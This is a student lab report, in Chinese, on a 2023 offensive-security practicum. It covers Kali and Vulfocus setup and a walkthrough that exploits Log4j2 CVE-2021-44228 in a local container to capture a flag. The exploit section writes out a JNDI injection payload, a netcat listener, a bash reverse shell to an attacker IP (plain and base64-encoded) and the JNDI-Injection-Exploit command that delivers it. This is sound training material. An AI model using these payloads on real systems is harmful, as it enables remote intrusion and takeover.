

# 2023暑期网络安全攻防实践记录报告


## 实验环境

- VMware Workstation Pro 17
- kali-linux-2023.2-vmware-amd64

## 实践过程

### 一、基础环境搭建

#### 1.配置虚拟机，调节网络环境

根据需要，本次实践中的虚拟机要配置两张网卡：`网络地址转换(NAT)` 网卡和 `Host-only` 网卡


为了完成红蓝攻防对抗，就需要准备攻击者主机和靶机共两台虚拟机，如果是用 Virtualbox 的话就可以直接使用多重加载镜像来简化实验操作，但是我这里使用的是 VMware，不支持多重加载功能（貌似是Virtualbox独家特色），那就只能是自行准备两台 kali 虚拟机了。


#### 2.配置 ssh 免密登录，实现优雅操作虚拟机

- __操作过程：__ 

     - 打开 gitbash，输入操作代码：
     ```bash
     $ ssh-keygen -t rsa 
     # 提示输入东西时，连续按3次回车即可，在~/.ssh目录下生成了id_rsa和id_rsa.pub两个文件，后者上传至目标服务器。
     # 但是因为已经生成过密钥文件了，这里就跳过这一步，权当是复习一遍之前的内容。
     $ ssh-copy-id -i id_rsa.pub server_user@ipAddr
     #server_user是服务器用户名，ipAddr是对应地址。
     ```

     
     
     


     - 在虚拟机上进行输入操作代码：
     ```bash
     $ vim /etc/ssh/sshd_config
     #找到/etc/ssh/sshd_config这个文件，取消以下几行注释。
     #PubkeyAuthentication yes
     #AuthorizedKeysFile .ssh/authorized_keys
     保存并退出vim：:x

     $ sudo service ssh restart
     #重启服务
     ```

     
    

     - 在 gitbash 中输入操作代码：
     ```bash
     $ ssh username@ip
     ```
     即可免密登录虚拟机的 Linux 系统。
     

在宿主机上实现远程免密登录确实会让实验操作更加便捷。


#### 3.把攻防训练环境从仓库中拉取到虚拟机系统中


- 根据黄药师提供的[vulfocus纯净版 Kali 初始化基础环境快速上手指南](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)进行环境搭建。

    ```bash
    $ git clone https://github.com/c4pr1c3/ctf-games.git
    ```


- 因为我在访问和拉取镜像时出现网络限制或者超时的问题，并且下载速度非常慢，于是就**更换了 kali 镜像源**：

  - 使用下列命令可以直接编辑`sources.list`

    ```css
    $ sudo vim /etc/apt/sources.list
    ```

  - 推荐的国内源地址如下：

    ```shell
    # 中科大
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
     
    # 阿里云
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
     
    # 清华大学
    deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    ```

- 保存上述更改后要更新软件源：

    ```bash
    $ sudo apt update 
    ```

- 通过使用 Docker Compose 来构造 docker 环境，其中 git 下来的仓库老师已经配置好对应的 .yml文件，直接执行即可构建对应的环境：

   ```bash
   $ sudo apt install -y docker.io docker-compose jq
    ```

- 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令：

    ```bash
    $ sudo usermod -a -G docker ${USER}
    ```

    然后重新登陆 shell 生效。

    

- 切换到 root 用户权限下执行：

   ```bash
   $ sudo su -
   ``` 

- 同样为了保证网络的顺畅，需要**更换 docker 源**：

  - 修改 `/etc/docker/daemon.json` 文件：

    ```bash
    # 添加一些国内的镜像源
    $ cat <<EOF > /etc/docker/daemon.json
    {
      "registry-mirrors": ["https://registry.docker-cn.com",
        "http://hub-mirror.c.163.com",
        "https://docker.mirrors.ustc.edu.cn",
        "https://cr.console.aliyun.com",
        "https://mirror.ccs.tencentyun.com"]
    }
    EOF
    # 查看是否修改成功
    $ cat /etc/docker/daemon.json
    ```


  - 重启 docker 守护进程：

    ```bash
    $ systemctl restart docker
    ```

     

  - 查看配置是否成功：

    ```bash
    $ docker info
    ```

     


- 提前拉取 vulfocus 镜像：

    ```bash
    $ docker pull vulfocus/vulfocus:latest
    ```

    这就是一个纯等待的过程，所以前面换成国内镜像源那步很重要，可以大大减少等待的时间。

     


- pull 好后，直接运行老师给出的 `bash start.sh` 脚本，并选择对外提供访问 `vulfocus-web` 的 IP（这里选择的是 host-only 网卡的地址），即可在本地的 80 端口开启容器：

    


#### 4.测试部署本地的Vulfocus


- 打开浏览器访问进入部署好的地址，【镜像管理】-【镜像管理】-【一键同步】，能够看到 Vulfocus 已经提供的镜像：

    

- 搜索感兴趣的漏洞镜像-【下载】

    


- 镜像下载完毕后，【首页】，能够看到下载好的镜像列表等信息，并在容器中【启动】环境进行测试：


    

    


#### 5.自定义一个场景拓扑镜像

- 根据同学提供的情报得知：由于[官网](https://vulfocus.cn/#/scene/list)已经不再提供下载和资源镜像分享，因此需要自己去设计构建相应的拓扑场景和镜像：

  

- 这里有两种方式，
  - 第一：直接导入 rock 同学提前搭建好的镜像场景——手搓 dmz，并且下载需要的漏洞镜像。
  - 第二：自己手动搭建场景。

- 为了方便起见，我选择了第一种方式，【场景管理】-【环境编排管理】-【添加场景】- 选择提前下载好的`手搓dmz.zip` -【修改端口开放状态】-【保存】-【发布】-【下载所需要的镜像】。

  > 注意记得将第二层容器中端口开放更改为 `false`。

  

- 一共需要 3 种漏洞镜像：`struts2-cve-2020-17530`、`weblogic-cve-2019-2725`、`nginx-php-flag`。正常情况下，按照上述操作，此时我们需要做的就是静静等待它下载完成，需要一点耐心，因为它下载速度很慢。但是我下载的时候遇到了问题，`weblogic-cve-2019-2725` 该镜像的下载一直无法成功。我试过很多方法：重启虚拟机、重新导入场景、单独下载、更换镜像源...全部无济于事，下载进度一直卡在一个位置。

  

- 因为在这个地方我耗费了太多时间，心态崩溃，所以中间 gap 了两天。今天重振旗鼓，再次挑战。我想如果无法从这个网站上直接下载的话，那能不能用别的方式下载呢？在网上查找了一番资料，终于，根据 [Vulfocus 镜像维护目录](https://github.com/fofapro/vulfocus/blob/master/images/README.md)得知：可以直接在 docker 里面拉取漏洞镜像。

  ```bash
  $ docker pull vulfocus/weblogic-cve_2019_2725
  ```

- 这次，终于成功搭建好场景啦！

    


### 二、单个漏洞验证和利用

> 以 log4j2 CVE-2021-44228 为例

#### 1.找到靶标访问入口

- 在 Vulfocus 镜像管理中下载并且启动 `Log4j2远程命令执行（CVE-2021-44228）`：

  


- 打开浏览器，访问该地址 `http://192.168.98.131:51640`

  

#### 2.检测漏洞存在性

- 在靶机上查看容器名称

  ```bash
  $ docker ps
  ```

  

- 实验环境访问端口为 `51640`，故查看到容器名称为 `wizardly_brattain`，进入容器

  ```bash
  $ docker exec -it <容器名> bash
  $ ls
  ```

  


- 查看到容器目录下有 `demo.jar` 文件，拉取到容器的宿主机上

  ```bash
  # docker cp <容器名称或ID>:<容器内文件路径> <宿主机目标路径>
  $ sudo docker cp wizardly_brattain:/demo/demo.jar ./
  ```

    


- 使用 [jadx](https://github.com/skylot/jadx/releases/tag/v1.4.7) 反编译 `demo.jar`

  


- 源码中有名为 `Log4j2RceApplic` 的类，其中正是违反了 "KISS" 原则，验证了该漏洞存在

#### 3.验证漏洞可利用性

- 使用 `PoC` 手动测试

> "PoC" 是 "Proof of Concept" 的缩写，意为"概念验证"。在安全领域，PoC 手动测试通常用于验证潜在的漏洞或安全问题。测试人员会尝试利用已知的漏洞或攻击技术来测试系统的安全性，并验证是否存在潜在的风险。这种测试方法可以帮助发现和修复系统中的安全漏洞，以提高系统的安全性。

- 访问 `http://dnslog.cn/` 获取专属随机子域名 `5d7mp8.dnslog.cn`

  


- 浏览器访问 `192.168.98.131:51640/hello?payload=111` 地址，使用 Burp Suite 进行抓包，修改 `GET` 请求的 `payload` 参数

  ```
  # ldap://dnslog获取的随机域名/随便填
  payload=${jndi:ldap://5d7mp8.dnslog.cn/exp}
  ```

- 同时对 `payload` 字段进行**编码**，否则直接访问会导致 400 错误

  

- 在 DNSLog 网站成功接收到解析记录

  


#### 4.漏洞利用

- 攻击者主机 attacker 上下载 [JNDIExploit 工具](https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip)

  ```bash
  $ git clone https://github.com/bkfish/Apache-Log4j-Learning.git
  # 解压
  $ unzip JNDIExploit.v1.2.zip
  ```


- 攻击者主机 attacker 启动 `7777` 端口，等待受害者主机 victim 反弹回连 getshell

  ```bash
  $ nc -l -p 7777
  ```

  


- 应用工具 `JNDI-Injection-Exploit` 搭建服务，格式：

  ```bash
  $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “IP（攻击机）”
  ```

- 这里的命令是想要靶机运行的命令，**"-A"** 后放的是攻击者主机的 IP，也是存放 **"-C"** 后“命令”的 IP 地址。

- 构造反弹 shell 的 `payload`

  ```bash
  $ bash -i >& /dev/tcp/192.168.98.130/7777 0>&1
  ```

- 将其进行 **base64加密**

  ```tex
  YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk4LjEzMC83Nzc3IDA+JjE=
  ```

- 执行JNDI-Injection-Exploit

  ```bash
  $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk4LjEzMC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.98.130
  ```

  

- 使用 Burp Suite 进行抓包，修改 `GET 192.168.98.131:51640/hello?payload=111` 的 payload 参数为上图框选的内容并进行编码

  ```
  ${jndi:rmi://192.168.98.130:1099/tl0nul}
  ```

  


- 发送后，即可发现攻击者主机的监听窗口反弹 shell，查看 flag

  ```bash
  $ ls /tmp
  ```

  


  ```bash
  flag-{bmhfafb34e9-8cae-4c77-99cf-7c1ead47eea5}
  ```


### 三、场景化漏洞攻击

> 以【跨网段渗透(常见的dmz)】为例

#### 1.场景安装与配置

- 即在上面已经搭建好的 `手搓dmz` （双层网段的渗透测试环境）
- 进入【场景】，启动场景
- 阅读场景说明，找到场景入口地址，可以使用指令 `docker ps` 来查看镜像信息，得到我们需要访问的端口号
- 打开浏览器，输入 `靶机IP:端口号`

    


## 参考链接

- [网络安全(2021)综合实验](https://www.bilibili.com/video/BV1p3411x7da/?p=22&spm_id_from=pageDriver&vd_source=61a1cf010feeebc60643481f16fc695e)

- [cuc-ns-ppt](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

- [Vulfocus 镜像维护目录](https://github.com/fofapro/vulfocus/blob/master/images/README.md)